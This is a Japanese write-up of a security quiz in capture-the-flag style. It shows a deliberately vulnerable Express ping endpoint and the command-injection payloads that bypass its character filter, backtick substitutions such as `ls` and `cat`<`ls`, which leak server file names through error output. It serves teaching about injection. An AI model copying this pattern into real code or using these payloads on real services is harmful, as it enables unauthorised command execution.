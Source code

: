 # Flatt  Security Developers' Quiz #2

## 設問
https://twitter.com/flatt_security/status/1549710781918617600

脆弱性のある環境が与えられ、`ls`コマンド実行時に判明するファイル名の提出が求められている。

```JavaScript
const express = require("express");
const { execSync } = require("child_process");
const app = express();

/*
    local ping check
*/
app.get("/", function(req, res) {
    const ip_address = req.query.ip;

    if(!ip_address){
        res.send("?ip=[your_ip]");
        return;
    }

    if(ip_address.length > 16){
        res.send("Error! IP is too long.");
        return;
    }

    if(/[!@#$%\^&*()\-_+=\[\] {}'";:,:?~\\]/.exec(ip_address)){
        res.send("Error! Your request is filtered!");
        return;
    }

    const cmd = "sh -c 'ping -c 1 " + ip_address + "' 2>&1 >/dev/null; true";
    const stderr = execSync(cmd, {"timeout": 1000});
    if(stderr != ""){
        res.send("Error! " + stderr);
        return;
    }

    res.send("Your IP is in a good state!");
});

app.listen(1337);
```

## 実行時の挙動
```
https://example.com/?ip=hogehoge
```
このような形式で受け取った値`hogehoge`に対してpingが実行される。


```
https://example.com/?ip=127.0.0.1
```

NG要素がないため、「Your IP is in a good state!」と結果出力される。
pingの実行結果、標準出力は画面には返ってこない。

```
https://example.com/?ip=---
```

NGな文字が含まれるので「Error! Your request is filtered!」と結果表示される

```
https://example.com/?ip=xxx
```

pingが実行されるがエラーとなる場合は標準エラー出力「Error! ping: xxx: Temporary failure in name resolution 」が画面に現れる。

このとき、入力値`xxx`がそのまま画面に現れることがポイントだと思われる。


## 入力条件

- 16文字以下であること
- 入力可能な記号が制限されているが、以下は使用できる
  - &
  - |
  - `
  - <
  - \>

### アプローチ
- 複数のコマンドを連結する場合に`&`や`|`、もしくはそれらを2個つなげた記法が使えないか
- `>`が使用できるので、`1>&2`などを付けたし、標準出力も標準エラーに加えられないか
- Bashで使用できる`<<<`でコマンド結果をpingに引き渡せないか

ここまで考えたところで、入力値`xxx`がそのまま画面に表示されたことを思い出す。

`ls`の実行結果をpingのリクエスト先に指定できればよいだけだ。

```
http://example.com/?ip=`ls`
```

このリクエストにより内部的には以下のコマンドが実行される。
```sh
sh -c 'ping -c 1 `ls`' 2>&1 >/dev/null;true
```
`ls`で取得できたファイル名をホスト名に見立ててpingコマンドが実行されるため、当然エラーとなる。
```
Error! ping: wow_congrats_you_executed_a_system_command.txt: Name or service not known
```
期待通り、ファイル名取得することができた。

### その他
前述の通り、他にも使用可能な記号がある。

`ls`では１つのファイル名しか表示されなかったが、`<`を使いほかのコマンドを組み合わせてみる。
```
http://example.com/?ip=`cat`<`ls`
```
これで同じディレクトリの他のファイル名も取得できる。
